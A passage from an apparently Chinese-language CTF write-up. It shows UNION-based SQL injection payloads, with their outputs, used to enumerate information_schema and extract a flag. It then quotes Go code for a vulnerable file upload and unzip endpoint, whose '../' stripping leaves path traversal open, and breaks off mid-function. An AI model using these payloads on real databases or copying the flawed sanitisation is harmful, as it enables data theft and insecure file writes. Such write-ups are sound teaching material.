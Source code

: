 ```
Vidar-Team has 1 books called seeeeeeeeeeeeeeeecrret
```

1'Union Select 1,column_name,1 From infoRmation_schema.columns LIMIT 4,1 ;%00

```
Vidar-Team has 1 books called fllllllllllllllllllllllaaa444g
```

1'Union Select 1,fllllllllllllllllllllllaaa444g,1 From seeeeeeeeeeeeeeeecrret LIMIT 1,1 ;%00

```
Vidar-Team has 1 books called VIDAR{U*Re4lly^Kn0wn_Sql$Inject1on}
```

flag:`VIDAR{U*Re4lly^Kn0wn_Sql$Inject1on}`

### unzip, or not?

源码审计题.提供了一个go源文件和docker文件.

```go
r.POST("/unzip", func(c *gin.Context) {
       fh, err := c.FormFile("file") //获取一个名叫file变量的值
       if err != nil {
          log.Println(err)
          c.String(500, "读取文件失败")
       }
       savepath := filepath.Clean(filepath.Join("uploads", strings.ReplaceAll(fh.Filename, "../", "")))

       file, err := fh.Open()
       if err != nil {
          log.Println(err)
          c.String(500, "读取文件失败")
       }
       defer file.Close()

       saveto, err := os.OpenFile(savepath, os.O_WRONLY|os.O_CREATE|os.O_TRUNC, 0755)
       if err != nil {
          log.Println(err)
          c.String(500, "保存文件失败")
       }
       defer saveto.Close()

       _, err = io.Copy(saveto, file)
       if err != nil {
          print(savepath)
          log.Println(err)
          c.String(500, "保存文件失败")
       }

       res, err := Unzip(savepath)
       if err != nil {
          log.Println(err)
          print(savepath)
          c.String(500, "解压失败")
       }

       // show unzip log
       c.String(200, string(res))
    })

    r.Run(":8180")
}

func Unzip(zipfile string) ([]byte, error) {
```